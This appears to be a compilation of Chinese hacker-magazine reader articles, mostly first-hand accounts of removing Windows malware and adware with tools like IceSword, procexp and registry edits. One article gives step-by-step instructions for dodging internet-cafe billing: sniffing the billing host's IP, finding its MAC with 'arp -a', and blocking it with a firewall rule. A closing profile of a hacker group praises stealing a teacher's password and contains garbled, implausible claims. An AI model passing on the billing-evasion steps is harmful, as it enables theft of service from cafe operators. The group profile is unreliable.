首先：重启进安全模式，看看在安全模式会不会篡改主页。如果被改就说明是“特殊”进程在搞鬼！进了安全模式以后情况依旧，害怕。先在安全模式下删刚刚自动下载的病毒文件，重启回到普通模式，刚开 QQ，又一条病毒消息发出去了！还真赖手啊！在网上转了转，找到了最新的在线 QQ 病毒专杀。查了 3 遍什么都没查到。就说杀毒软件没用吧！

无奈之下只有打开传说中的 ICESWORD，看看进程的路径，都正确。看来很可能是插入进程，试着结束了几个非关键进程，没什么反应。但当结束了桌面程序 EXPLORER.EXE 这个进程后再重新加载的时候，效果出现了，又一条病毒消息发了出去。试了几次，都是这样（冒着差点被踢出群的危险，哈哈，还好这个病毒只是给你打开的 QQ 窗口发消息，不是给所有的好友发，要不我就真的臭了）！还真歹毒啊，我说怎么安全模式都会修改主页失效，原来是插入进程。既然找到了罪魁祸首，就……


图5

病毒固然烦人，但是它的这个思路还不错，为下一个木马的隐藏工作又打下了坚实的基础。小弟第一次写文章，有什么问题请大家指正。不要丢鸡蛋啊！

## 毒宠

### 真假猕猴王之 wmiprvse.exe


今天正在家里玩着征途，就要升级了，没想到眼前一黑，屏幕后面“砰”的一声，电脑进入了重启……直接打开了任务管理器（图1），发现了在重装系统之前并没有出现的一个进程：wmiprvse.exe，马上在系统说明里翻了翻，很快便得到了这个进程的详细说明。

> wmiprvse.exe 是安装 Windows 操作系统的一部分，用于通过 WinMgmt.exe 程序处理 WMI 操作。这个程序对系统的正常运行非常重要……（WMI provider 说明）


仔细观察，发现前者的文件夹比正常情况的多了个“2”，再看两个文件夹内容都差不多，但是总的大小却差了几兆。进一步看了两个文件夹的创建时间（图3、4），印象里在“windows2”文件夹的创建时间上自己确实曾重装过系统，于是初步认定是因为两个都是系统目录，只是前一个在最后一次重装系统后没有删干净，保留了下来。


看了这些，自己首先估计这个进程应该是可以注入到系统必要进程中的木马服务端类型，可是继续找了一下资料，这个想法便马上被自己推翻了：“The wmiprvse.exe file is located in the c:\windows\System32 folder... In other cases, wmiprvse.exe is a virus, spyware, trojan or worm!”


让脑子冷静了一下，等着电脑重新加载，再一次进入了操作平台。这次我用搜索功能查找“wmiprvse.exe”，过了一会，竟然搜索出了两个并存的文件——不对！是两个不同文件夹下的两个同名文件！一个是位于 E:\WINDOWS2\system32\wbem 下的，另一个位于 E:\WINDOWS\system32\wbem 下（如图2）！


这时打开任务管理一看，里面真的存在着两个 wmiprvse.exe 进程名。一个是 network server 用户组，另一个却是 system。上网找到了另一段官方说明：“Note: the wmiprvse.exe file is located in the C:\WINDOWS\System32\Wbem folder. In other cases, wmiprvse.exe is a virus, spyware, trojan or worm! Check this with Security Task Manager”。

## 毒魇

看完了当时就傻了，这里说的是 `\System32\Wbem` 文件夹下的才是正常的文件……直接位于 `windows\System32` 文件夹下的那个 `wmiprvse.exe` 才是真正的病毒！

无奈又回到了 `\windows\System32` 文件夹下，找到了 `wmiprvse.exe`，先在任务管理器上将其进程终止，便马上删除了它……最后希望大家的电脑越来越安全。

### 菜鸟大战U盘病毒

王欣欣

今年夏天由于重庆太热，我早早地来到学校避暑……我们照例从兰兰（室友名）的 MP3 里复制电影时却发现双击 U 盘打不开，右键的第一个选项居然是“AUTORUN”！不好，中招了。

使用资源管理器打开 U 盘，没有发现任何可疑的文件，更没有发现 autorun.inf……于是打开 CMD 窗口切换到 U 盘根目录下，输入 `type autorun.inf`（图1），终于露出狐狸尾巴了，原来病毒文件名是 `sxs.exe`。


习惯性地看了看注册表的 RUN 目录，发现多了一个叫 `soundman` 的键值，内容是 `system32\svohost.exe`（图5），果然不出我所料。

这下子就比较明朗了：病毒在我双击 U 盘时在 system32 下写入了 svohost.exe 和 winscok.dll，并启动 svohost.exe，还将 winscok.dll 插入到 conime.exe 中，在注册表中添加启动项。


查看进程发现可疑进程叫 `SVOHOST.EXE`，位于 system32 目录，和系统正常的 `SVCHOST.EXE` 仅一字之差（图2）。再查看它加载的 DLL，发现可疑的 `WINSCOK.DLL`（图3），会不会它还插入了其它进程呢？在进程执法官的“查找 DLL”下它露出了原形，还插入到 conime.exe 进程中。


使用冰刃的文件浏览功能找到 system32 目录下的 svohost.exe 和 winscok.dll……再浏览其它磁盘，发现在每个磁盘的根目录下都写进去了两个文件：`sxs.exe` 和 `autorun.inf`（如图4）。

先清除病毒再慢慢恢复系统：使用冰刃解除 conime.exe 里面的 winscok.dll，结束 svohost.exe 进程，再删除这两个文件；然后删除 RUN 下面的 soundman 项；最后删除每个磁盘根目录下的 sxs.exe 和 autorun.inf 即可。


现在该恢复这台电脑了。动手吗？我可没那么勤快，不是有还原点吗……可是接下来轮到我傻眼了（图6），系统还原居然被它关闭了。这下子把我逼上了绝境。

## 毒笼

防火墙服务（图7），禁止了安全中心的服务（图8），最令人哭笑不得的是自动更新（图9），那个表示选项的黑点呢？你看见了吗？

为了揭开病毒隐藏文件之谜，我带着这个病毒来到了网吧。为了清楚了解它对电脑的所有修改，我找来了 regsnap（快照工具）。先新建了一个快照，接着我插上 U 盘，双击盘符，等了 3 秒钟后，又建了一个快照，并对比一下。仔细研究报告，证实了前面我的好多推断（图10），更重要的是我发现了文件夹隐藏的秘密。


原来它改了注册表，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` 下，把 CheckedValue 的值改成了字符串 0（图11），看来问题出在了这里。

现在总结一下清除病毒恢复系统的步骤：

- 结束 `svhost.exe`，并删除 `compu.exe` 里布的 `winsock.dll`。
- 删除 `system32` 下面的 `svhost.exe` 和 `winsock.dll`。
- 删除注册表 `run` 项中的异常启动项（如 `c:\windows\system32\svhost.exe` 等）。
- 定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`，删除 `CheckedValue`，再新建 `DWORD` 值并修正。
- 使用资源管理器显示全部文件（注意不要双击磁盘分区），逐个分区删除可疑文件（如 `sxs_.exe`、`autorun.inf`）。
- 重新启用系统还原、防火墙与安全中心服务，开启自动更新并重启电脑。

（本文所涉及到的进程执法官、冰刃和 regsnap 已收录到光盘中）

### 病毒，休想跑！

♣ 我是孟显魂


前几日，很不幸地中了一个比较厉害的病毒，这个病毒可不是普通的木马或一般的黑客程序，只通过简单的清理注册表或者相应的文件是不行的，那次的杀毒经历可是痛苦呀！

话说那天无意中在任务管理器里发现了一个可疑的进程——`cmpku.exe`，使用 MT 查看进程路径（`nt -pslist`）发现是在系统目录 `system32` 里。但是我在目录中没有发现这个程序，可能是这个文件加了隐藏和系统属性吧。我使用 `attrib` 命令去掉了这个文件的各种属性（`attrib -r -h -s filename`），顺便使用 Copy 命令把文件复制了出来，如图1。

这个程序很可疑，正常的程序通常……

## 毒瘤

是不是加各种属性的。拿出查看系统启动项的法宝 **Autoruns**，看到多了四个程序启动项，三个是 undeath 名称，还有一个是 cmpnt。这几个程序也都是加了系统和隐藏属性，而且文件大小都是一样。看来是同一个程序，只是名称不一样，如图2。顺手删除了所有看见的病毒项目和对应文件，本以为这么简单地就把病毒给清除了，没想到噩梦才刚刚开始。


我使用 **LordPE** 改写程序入口点时，发现有个 “oli-” 的区段，当时没在意，以为是哪个加壳后加上的呢。没想到第二个想修改的程序也有个 “pmj-” 这种名称格式的区段。仔细一看觉得很奇怪，于是把这个区段删了。等到过会儿使用 PEiD 又查了一遍，这回后边又加了个 “???-” 的不明区段（中间是随机的三个英文字母，不过最常见的就是 heb-、jgd-、pmj-、oli-、uro-、wtq- 这几种名称），我确信，这肯定是那个病毒搞的鬼，如图3。

看来这个病毒还能感染文件呀，还是使用杀毒软件看看吧。杀毒软件提示发现 Win32.Hack.Tompai.b.23552 后，电脑 CPU 占用马上就到了 100%，好几分钟才反应过来，然后就是不停地报告发现 win32.parite.a.6958。系统盘所有的文件都感染了 win32.parite 这个病毒，够厉害的。我看看时钟，已经是夜里一点多了，于是决定第二天继续搞。没想到第二天连杀毒软件也启动不了了，提示说是遭到非正常修改，拒绝运行。使用 PEiD 查看杀毒软件主程序，发现后边也给加上了一个区段。大势不妙，现在连不在系统盘的杀毒软件也给感染了（图4）。


对这样的感染型病毒我也没什么好办法，只能狠下心挥泪使用还原卡了。原以为这样就没事了，可过了几天杀毒软件又提示出现 win32.parite.a.6958 病毒，这回彻底地郁闷了。刚还原的整个硬盘怎么又被感染了啊？想来想去最后将目标锁定在移动硬盘上，因为平时在家里装各种软件我通常使用的都是移动硬盘，而移动硬盘默认有自动运行的功能，很有可能就是这样我才中招的。

在移动硬盘的根目录下果然看到有个叫 iexplores.exe 的文件，怪不得这几天移动硬盘插上后指示灯就开始狂闪，都怪自己太大意了。以前在网吧移动硬盘“自动播放”的时候金山实时监控总是提示根目录下有病毒，我还以为是误报呢（因为现在有的杀毒软件把 Autorun.inf 都当成病毒）。在此我建议最好关闭“自动播放”功能。删除根目录下的 Autorun.inf：打开组策略 gpedit.msc，展开“计算机配置”→“管理模板”→“系统”，双击“关闭自动播放”，弹出属性框，单击“已启用”，在“关闭自动播放”下拉列表中选择“CD-ROM”即可禁止光驱的自动播放。选择“所有驱动器”则会禁止闪存、USB 硬盘、CD-ROM 等所有设备的自动播放。这样就算有 Autorun.inf 也不会自动播放了。另外经常检查系统中的 Folder.htt，这个也相当于“自动播放”。出现了这个文件可能是 VBS 病毒，因为不使用“自定义文件夹”一般不会出现这个文件，如图5。


经过一番运行测试，总算知道是怎么回事了。iexplores.exe 和那几个程序是同一个程序，就是 Win32.Hack.Tompai.b.23552。运行后会复制到 windows\system32 和 windows 目录里，并重命名为 cmpku.exe、mainsv.exe 和 mapserver.exe，并在注册表写入相应的四个启动项，不过启动项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 有时是 `loadms.exe` 或 `ntdllf.exe`。另外还会在每个盘（不只是移动硬盘）的根目录里写入 `autorun.inf`，再复制 `iexplores.exe` 到每个盘的根目录。双击打开盘符就运行 `iexplores.exe`，就算重装系统，只要有一个盘的 `autorun.inf` 没被删除，病毒就有可能会复活。

这个程序运行后会实时检测注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下是否有对应的运行文件，就是 `windows\system32` 目录里的 `cmpku.exe`，其它几个启动项不检测。同时监控文件夹选项运行文件隐藏保护；如果显示状态是“显示所有文件”就会马上修改为隐藏系统文件和后缀名。

这个病毒打开 30167 端口（图6），在命名为 `cmpku.exe` 的情况下还开启 24007 端口，在命令行下接受远程控制，连接不需要密码（图7）。我们倒是可以利用该病毒的这个特性来扫描 24007 端口以获得病毒线索。

最要命的 `win32.parite.a.6958` 就是这个 `iexplores.exe` 释放的。这回清除病毒可麻烦了，移动硬盘不可能像机器那样还原，辛辛苦苦收集的工具总不能格盘啊。我找了一个专杀工具改成 `com` 后缀在安全模式下扫描，但提示没有发现病毒，看来我感染的这个病毒是个新变种。

我只能选择用杀毒软件来修复了。我使用的是金山。因为金山发现病毒后是先修复感染文件，不能修复的情况下再选择隔离或直接清除，不像其它一些杀毒软件看见病毒就直接删，这就是为什么装了杀毒软件的系统感染 parite 病毒后无法启动的原因。

我重启切换到安全模式，把 `windows\temp` 目录的所有文件删除，并把这个目录设为只读属性。再关闭 explorer，用任务管理“运行”功能重新打开 explorer，这么做主要是这个病毒无法感染正在运行的程序。使用没被感染过的金山安装程序把金山安装在系统盘（最好是系统盘，放在其它盘的也会被感染），把系统盘的病毒杀一遍，不用改后缀为 `com`。

扫描结束后别用卸载程序删除，直接用任务管理器关掉 `KAVStart.EXE`、`KWatch.EXE` 和 `KPFWSvc.EXE` 的进程（注意是管理员权限），把金山目录中的所有文件手动删除。重启前注意在注册表里把其它盘的开机自启动程序删掉，重启后一定注意别进其它盘运行文件，再安装一个新的金山扫描剩下的那几个盘，最后完全修复后再删除金山。这样就可以把 parite 病毒完全删除了。

经过一番“扫描、查杀、修复”的折腾，可恶的 parite 病毒终于离我而去了，真是一次痛苦的杀毒经历呀！

（本文所涉及到的 PEiD、LordPE、Autoruns 和流行病毒专杀工具已收录到光盘中）


### 小小木马，菜鸟不怕

刘超

这天去 system32 文件夹里找东西，突然发现这个文件夹没有了，如图1。我还以为是图标排列的问题，搜一下发现还是没有，如图2。


坏了，直觉告诉我，中招了……这要换了以前我早重装系统了，可现在毕竟也是成天看 X 档案，哪能这么轻易放弃，拿出 IceSword 查看一番，如图3。

还好，总算是看到了。我马上运行卡巴，没想到卡巴也找不到这个文件夹，如图4。

十有八九是在注册表中动了手脚，打开注册表，来到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL`，看到 CheckedValue 的值是 1 呀（有的木马会伪造 CheckedValue 的值），删除 CheckedValue 重建，把它的值设成 1。但是 system32 文件夹还是没有显示出来。是不是木马把它改成系统属性然后又隐藏了呢？运行 cmd，使用 cd 命令转到 windows 目录下，执行 `attrib -s -h 文件夹名`（-s 参数为去除系统属性，-h 参数为去除隐藏属性），如图5。再看，熟悉的 system32 文件夹回来了，这下总算松了一口气，如图6。


按修改时间排序文件，发现了可疑文件 smsss.exe，和系统文件 smss.exe 的名字很相似，图标是文件夹模样。拿出 PEiD 进行查壳，发现加的是 UPX 壳，这个壳好脱。刚脱完壳，可怜的木马就被卡巴无情地杀掉了，如图7。


仔细一看，原来是个下载者，赶紧启动卡巴对系统全面杀毒，又仔细看了下进程和端口，没发现有什么异常，这才放心。（本文所涉及到的 IceSword、PEiD 和 UPXShell 已收录到光盘中）

## 流氓乎，病毒乎——变种 Roogoo 病毒查杀记

冰河洗剑

俗话说：“常在网上飘，哪能不挨刀”！这不，今个儿我就发现自己被暗暗地捅了一刀——跑到百度中去搜索时，竟然会弹出一个大大的搜索结果广告窗口，本以为是百度堕落变质，搞了些广告来害人，没想到在 Google 搜索时这个大大的广告窗口也依旧弹出。我心中一惊，知道中招了！

搜索到的信息更让我有些心寒，别人的 Roogoo 病毒文件都是 wmpcd32.dll、RGWatch.sys 之类的，而我的却是 Bootvid32.dll，好像我中的是最新的变种。没法子，重装系统代价太大了，只好开始了一场与 Roogoo 病毒的艰难战事……

#### 一、360 安全卫士缴械投降

但凡碰到流氓软件插件之类的，我都是推荐各位菜鸟使用 360 安全卫士，感觉这款软件挺强的，而且更新得很快，大部分难缠的流氓软件都可以顺利清除掉。于是运行了 360 安全卫士，果真检测到一个“恶意软件”，没想到竟然是什么“通用搜索”，危险级别为高，文件名为“Bootvid32.dll”，出品公司为“www.roogoo.com”。毫不犹豫地点了“立即清除”，提示开始清除病毒，谁知 360 安全卫士就此停止了反应，死掉了（图1）。


图1

重新运行 360 安全卫士，情况依旧，而且无论是最新的 1.74 版，还是 2.0 测试版，都不能清除。

看来这个 Roogoo 通用搜索还不是一般的流氓，连 360 安全卫士都搞不定它。于是尝试使用“超级兔子”中的流氓软件清除工具，虽然程序不停死掉，但是仍然清除不了。迫不得已，拿出了我最喜欢的病毒木马流氓软件通杀工具 Ewido，可是 Ewido 更让我失望，竟然连 Roogoo 都检测不到！

#### 二、网上寻踪

既然这些工具都没有效果，那就上网去看看有没有什么专杀工具之类的吧。打开 IE 窗口，试图在百度和 Google 中搜索，没想到网页全都打不开了，奇怪的是我的 QQ 却能正常上线聊天。重新启动系统后，依旧上不了网。没法子，只好借朋友的电脑上网，查了查 roogoo，这才发现在网上 Roogoo 早已如过街老鼠，处处挨骂了。网上有一个“反 Roogoo 联盟”，在上面可以看到 Roogoo 的种种劣迹——弹出垃圾广告、无法删除，最严重的是它会造成 WinSock 协议的损坏，用户无法上网，往往只有重装系统！真够恶毒的，流氓就算了，还破坏咱们的系统，这不跟病毒一样吗？就连瑞星也将这个流氓列为了 adware·Roogoo 病毒名单。

#### 三、删除病毒主体文件

很显然，弹出的广告都是 Bootvid32.dll 文件搞的鬼，首先得删除这个文件。直接删除显然是不行的，于是进入到安全模式中删除，同样提示文件无法删除掉。由于 Bootvid32.dll 是 DLL 文件，因此考虑使用 Windows 系统中自带的 Rundll32.exe 卸载后再删除，这一招对付 wmpcd32.dll 是很灵验的。但是当我执行命令 `Rundll32.exe Bootvid32.dll,Uninstall` 时，竟然弹出了卸载错误的提示（图2）。


图2


图3

看来得强制卸载了，先得知道这个 DLL 文件是寄宿在哪个进程里面的。还是老方法，运行 procexp 进程管理工具，点击菜单“Find”→“Find DLL”命令，打开 DLL 文件查找对话框，在“DLL Substring”中输入“Bootvid32.dll”，点击“Search”按钮，可以看到该 DLL 文件是被哪个进程调用的了（图3）。

晕，居然注入到了 svchost.exe 和 alg.exe 两个系统进程中，于是将这两个进程结束掉，然后再尝试删除 Bootvid32.dll 文件，这回终于成功了！

> **小提示：** 如果病毒文件为 `RGWatch.sys`，也可以使用同样的方法找出寄宿的进程，将进程结束掉后再删除病毒文件。此外，冰刃 IceSword 也是个不错的选择。另有些版本的 Roogoo 还会在 `C:\Windows\system32` 目录下生成一个名为 `Bootvid32.dll` 的病毒文件，也应使用同样的方法删除掉。


#### 四、删除注册表垃圾

打开注册表编辑器，在注册表中搜索 `Bootvid32.dll` 和 `roogoo` 相关项目，直接删除掉。不过有些注册表项目是无法删除掉的，只好用 IceSword 强行删除。由于 IceSword 中没有注册表搜索功能，因此只有先用注册编辑器搜索出无法删除的项目，再在 IceSword 的“注册表”中定位到搜索项目，然后删除（图4）。


删除完毕后，再用 360 安全卫士检查一下，还是提示发现了“通用搜索恶意软件”，不过这次可以正常地清除掉 Roogoo 了，在清除过程中会要求重启系统。

#### 五、修复网络功能

由于 Roogoo 病毒是与 Windows 的通讯协议绑定在一起的，所以删除病毒文件后网络连接无法正常使用，因此最后需要修复网络协议。右键点击“本地连接”，选择“属性”，再点击“安装”，在弹出对话框中选择“协议”，在协议列表中选择 “TCP/IP” 即可重新安装 TCP/IP 协议。不过在打开协议对话框时，对话框可能已无反应（图5），只好强行关闭掉。


> **小提示：** 使用重装 TCP/IP 协议的方法进行修复，只适用于 Windows XP SP2 之前的系统，在 Windows XP SP2 中是无法通过该方法重装 TCP/IP 协议的。

再次运行 360 安全卫士 V2.0，点击界面中的“修复”→“修复网络连接”，在列表中可以看到两个蓝色的可疑项，对应的文件为 `svcpack.dll`（图6）。点击“修复 Winsock LSP”按钮，开始进行修复，修复成功后重启系统。网络能够正常使用了！

至此，成功地清除掉了 Roogoo 病毒的最新变种。

> **小提示：** “MSTCPChain provider” 和 “MSTCP provider” 默认对应的文件应该是 `mswsock.dll`。Roogoo 劫持了正常的 LSP 协议后，文件名并不一定为 `svcpack.dll`，可能是随机的。如果不能正常修复成功的话，可以在 360 安全卫士中点击“恢复 Winsock LSP 到初始状态”，即可将 Winsock LSP 恢复到最初始的状态。

#### 六、Roogoo 病毒清除总结

Roogoo 这款流氓软件有多个变种，最可恨的是使用普通的流氓软件清除工具删除后，会造成网络无法使用，其危害可以“媲美”一些网络病毒了。可以说 Roogoo 这款流氓软件的清除过程是很具有代表性的。

清除 Roogoo 病毒中最关键的是删除病毒文件，可以通过 `procexp` 的 “Find” 命令查出宿主进程，结束掉进程后直接删除病毒文件。如果病毒文件是寄宿在一些重要的系统进程中，不能直接结束进程的话，可以用 IceSword 直接删除文件。对于其它类似的流氓软件也可以用同样的方法删除掉病毒文件主体。


删除病毒文件后，破坏网络协议，这是 Roogoo 病毒最大的“特色”。某些流氓软件也可能会造成网络无法使用，这时可使用前面提到的工具来修复。最后再介绍一款更为强大的网络协议修复工具 “WinsockFix”，运行 WinsockFix 工具，点击 “Fix” 按钮，确定后就开始修复，修复完毕后会要求重启系统，重启后就可以正常访问网络了（图7）。


还有更为简单有效的一招，如果不能上网的话，可以在命令提示符窗口中执行命令 `netsh winsock reset`，重启即可（图8）。

（本文所涉及到的 360 安全卫士、procexp、IceSword 和 WinsockFix 已收录到光盘中）

## 腾讯QQ也“流氓”

平凡

#### 一、初遇“流氓”

今天，电脑操作系统终于向我罢工了。还好，我有 Ghost 备份，不到5分钟，一个全新的操作系统就恢复了，顺便重装了一下QQ。但是，当我使用瑞星防火墙查看启动项时，居然发现里面多了一项“stup.exe”（图1），而在使用 Ghost 备份前是没有这一项的。其指向的路径是“C:\PROGRA~1\TENCENT\Adplus\stup.exe”，使用资源管理器打开所在目录“Adplus”，发现其中还有其它一些文件（图2）。这就奇怪了，我没有安装过这个程序啊。

仔细想了想，曾经也发现过这个程序，而且还把它当病毒处理过，结果发现此程序带有流氓软件的一些特征：自动项无法删除，删除后会自动添加；stup.exe 双击运行后闪了一下，就没有其它任何反应；“Adplus”目录下有些文件无法删除，并且有些文件删除后还能重新生成；使用冰刃查看“Explorer.exe”进程模块信息，发现“Adplus”目录下的一些 dll 文件被加载了进去，所以有些文件无法删除。

路径目录中有 TENCENT，是不是病毒为了伪装而故意用的这个名字呢？仔细想一下，这个可能性还很大，因为重装系统后只安装过QQ。为了证明我的想法，我先把QQ卸载掉了，但“Adplus”目录里面的东西仍然安然无恙。接着打开文件监视工具 Filemon.exe 监视文件的操作，然后双击“qq2006beta3_SP1.exe”开始安装。

当安装到图3所示画面时，我想起来了，平时安装QQ时这里的勾全部都去掉了，今天安装时因为点得太快，“安装搜狐地址栏搜索插件”前面的勾没有去掉就按了“安装”按钮，会不会是因为它呢？我仍然不去掉这个勾，继续安装。安装完成后，在 Filemon 的记录里面找啊找，终于让我找到了，如图4。前面的 Setup_QQ.exe 是安装程序释放在临时目录里面的。


现在只能证明“stup.exe”与QQ有关，但它到底是不是那个什么“搜狐地址栏搜索插件”呢？还不能确定。其实，只要在注册表里面搜一搜就能得到答案。打开“Registry Crawler”，在搜索里输入“stup.exe”，点执行，完成后会找到5个结果（图5）。

从第4个结果不难看出，这是“添加或删除程序”在注册表中的位置，说明它是可以被卸载的。双击它，“Registry Crawler”会打开注册表编辑器并跳到相应位置（图6），这下什么都明白了。打开“控制面板”中的“添加或删除程序”，果然有“搜狐地址栏搜索”这一项。没想到QQ居然会和流氓软件相勾结来欺负我们这些纯洁善良的菜鸟，真是可恶呀！


#### 二、找出真凶

这讨厌的“流氓”让我陷入了沉思，公司名称也都是“Tencent”，难道……难道真是腾讯QQ里捆绑的（我是在哪儿看到……）。


#### 三、赶走“流氓”

经过上面的分析，总算是找到了真凶，而且知道它是可以卸载的。打开“控制面板”中的“添加或删除程序”，到“搜狐地址栏搜索”这一项，点击卸载；或直接在运行中输入“UninstallString”项的值：`C:\PROGRA~1\TENCENT\Adplus\sup.exe C:\PROGRA~1\TENCENT\Adplus\SSAddr4.dll Uninstall`，运行后都会出现卸载对话框（图7）。随便选个理由，点“确定卸载”按钮或 OK 了，重启后“Adplus”目录中的文件会自动删除。


图7

### 四、清除“流氓”的总结

结合在X档案中学到的方法，病根找到了，流氓软件也清除了。过去我都是想方设法强制删除启动项和“Adplus”目录里的文件，到头来软件没有删除掉，自己还累得半死。所以，我们做事不仅要有某种毅力，更要知其所以然，否则会走很多的弯路。所谓治标还需治本。官方组织还在宣传“净化网络空间，抵制流氓软件”，真是贼喊捉贼！

我后来还发现，在那个“TENCENT”目录中还有一个“Viewpoint Media Player”目录，也是没有经过用户允许而强制安装进去的，对应的“添加或删除程序”里面的名字为“Tencent Media Player by Viewpoint”，也不知道它是干什么的，还请高手指点。

## 看来马化腾准备杀杀杀软件——大战橙色8月病毒

王建松

新给朋友安装的电脑，可拿回去就出现了很多病毒，而且连杀毒软件也不能运行了，开机后就会显示找不到“RsGuiLib.dll，无法启动瑞星”。我在网上查了半天，看到有网友说是最近出现了一个很牛的病毒——橙色8月病毒，专门针对各大杀毒软件。它们除了具有常见的危害外，还会造成主流杀软和个人防火墙无法打开，甚至导致系统出现“蓝屏”、自动重启、死机等状况。于是我从瑞星官方网站上下载了橙色八月专用提取清除工具来进行查杀，如图1。


图1


图2

虽然查到了病毒文件 `C:\Program Files\Common Files\Microsoft Shared\MSInfo\3831198e.dll`，但是却显示的是未知病毒，无法清除，要我上传报告。于是为了能够找回瑞星，更何况我的瑞星还是盗版的，所以我只好决定自己动手查杀病毒。看X档案这么长时间了，要是连个小小的病毒都搞不定可真是没脸再混了。

这个病毒是 DLL 类型的，应该是注入了某个进程。我们先来查出它注入的进程，拿出 procexp，这个工具能够很快地查出某个 DLL 文件的宿主进程。点击 Find 菜单下的“Find DLL”选项，输入 `3831198e.dll`，点击查找，马上看到它注入的是 Explorer.exe，如图2。

如果没有工具的话，我们可以先使用任务管理器结束 Explorer 进程，然后删除病毒文件，再重新启动 Explorer，不过这个方法不是百试百灵的。我们还可以使用大名鼎鼎的冰刃，冰刃的进程模块管理功能非常强大，可以轻松地删除这种顽固文件。点击进程选项，找到 explorer.exe，右键模块信息，看到了吗，揪出了 DLL 病毒的狐狸尾巴了，将它删除；然后来到病毒所在目录，发现这个病毒有两个文件，一个是 3831198e.dll，另一个是 3831198e.dat，同样将这两个文件删除。接下来就是清除注册表中的信息了，打开注册表查找 3831198e，找到后将其删除，如图4。

我们再把瑞星卸载，重启电脑，然后重新安装瑞星。我本以为这样病毒就已经被清除掉了，可两天后问题又出现了，瑞星又不能使用了，打开 `C:\Program Files\Common Files\Microsoft Shared\MSInfo` 目录竟然又发现了 3831198e.dll 和 3831198e.dat 这两个病毒文件，病毒又复活了，实在令我郁闷极了！

我仔细想了想，认为当初肯定还漏掉了一个文件，于是我又按照当初的步骤删除掉 3831198e.dll，然后重新装瑞星，扫描D盘，结果发现了一个 3831198e.exe 文件，成功将其清除。后来才知道是这个文件，我一运行QQ，它就会自动在 `C:\Program Files\Common Files\Microsoft Shared\MSInfo` 生成 3831198e.dll 和 3831198e.dat 这两个文件，其中 3831198e.dll 是造成杀毒软件无法启动的罪魁祸首。至此，这个该死的病毒总算被彻底地清除了。

（本文所涉及到的 procexp 和冰刃已收录到光盘中）


## 菜鸟围战 look'n'stop 免费上网

真的没有想到，我在05年11期上的一篇使用 Look 'n' Stop 防火墙进行网吧免费上网的文章在读者中居然有了这么大的反响，许多朋友对该文进行了补充或提出了自己的见解，这对我的鼓励极大，使得我更加深入地去研究 look 'n' stop 在免费上网方面的应用。

我看了一下最近几期 X 档案里对我那篇文章的补充，发现一些朋友在使用我介绍的那个方法中存在着一些误区，或许是因为我当时描述得不够详细吧，还请见谅！有必要先来讲一下我们这儿到网吧上网的过程：我们这儿的网吧没有会员制，随到随上，先刷卡，再往卡里临时充值，充值金额可以自定。也就是说我可以只交一个小时的上网费，当卡里的钱用完时服务台那里会自动结账。使用此法后，即使主机结账了电脑也不会锁定，我们继续接着上网就OK了。而如果是在实行会员制的网吧，我们可以使用06年第3期杂志上补充的那个先换机再下机的方法来进行免费上网。


关于安装 look 'n' stop 防火墙后重启的问题，在看了06年第1期上关于 look 'n' stop 的补充后，我下载使用了那个 INSTRPV.EXE。不过，有时这个软件运行不了，会出现一个错误提示，然后关闭。另外，经过本人近几个月的实践，在绝大多数情况下不重启系统同样可以成功，只要系统不是 Win98 就行。在 Win2000 下有时会加载不了本机 IP 地址，会在启动防火墙时出现 0.0.0.0，出现这样的情况一般就不能成功了，但是也有成功的，我就是一通胡乱设置，也不知道到底是怎么成功的，呵呵！而且，根据我的经验，加载不了 IP 的情况，发生的概率小于5%，所以我之前没有提到过这个问题。如果各位读者在使用过程不幸发生了，就请换机吧。另外我在 PUBWIN_EP 版遇到过另一种情况，就是安装防火墙后仍然可以查询消费，不知大家有没有遇到。

我们怎么找计费主机的 MAC 地址呢？这次我给大家讲的是只要成功加载了 IP 就一定可以实现免费上网！我们需要一个软件——WinSock。先打开它，点黄色按钮，打开 PUBWIN 的进程，然后再查询消费信息，这时，WinSock 截获的 IP 地址就是计费主机的 IP（图1）。再在本地 CMD 下执行 `arp -a`。在返回的内容中找到刚才那个 IP 地址所对应的 MAC 地址（图2）。这样，我们就轻易地找到了计费主机的 MAC 地址。再建立我在05年11期中介绍的过滤规则，注意：建立规则后一定要点“应用”。就这样，我们免费上网的目的就达到了！

## 网络世界里的“大屠杀2600”黑客组织揭秘

大屠杀2600，是美国著名的黑客组织，现在已经拥有150多万的成员。他们来自各行各业，年龄从14岁到52岁。他们在外表上和常人没什么区别，或许是一个加油站的伙计或者送牛奶的孩子，但他们的群体扩展得非常快。我们仿佛已置身其中。有说法是：每秒钟都诞生一件成员。绝对想不到的是，他们其中有人不会基本操作命令，绝对知网思维，有人甚至不知道如何开机、关机。

这个组织之所以叫做大屠杀2600，是因为它的创始人名叫灭绝（Genocide）。Genocide 14岁就开始接触网络知识，尽管当时他对“黑客”一无所知。更确切地说，Genocide 是从 phreak（也有译为泛客、飞客的）与后来的 hack 不同。phreak 最早指的是精通并入侵电话系统，可以利用技术免费拨打电话或进行窃听。

有一天，他发现自己老师在苹果机上用相当简单的记分程序录入学生的考试分数。他看准老师向电脑里输入登录密码的时机，发问提问，同时假装在本子上记着什么，事实上记的是老师刚输入的密码。这门课程是 Genocide 的必修课。如果不及格就毕不了业，所以这个密码对当时的 Genocide 通过这门课程起了相当重要的作用。

由那次以后，“黑客”行为开始得到认可。从此 Genocide 开始对黑客着迷。他的同学带他回到费尔班克斯的阿拉斯加大学读当地的学位。在那儿 Genocide 开始接触到 VAX 操作系统以及 Digital 的 UNIX 操作系统。对他来说，那真的是一个很好的学习机会。

在上大学二年级的时候，他结识了“大屠杀2600”的另外最初几名成员 Alex、Wizdom 和 Astroboy 等。大家提出模仿一本杂志中介绍的做法：每周五7点举行一次见面会，谁在黑客技术方面有了新的了解，就讲出来给大家听。于是“大屠杀2600”这个组织就这样诞生了。

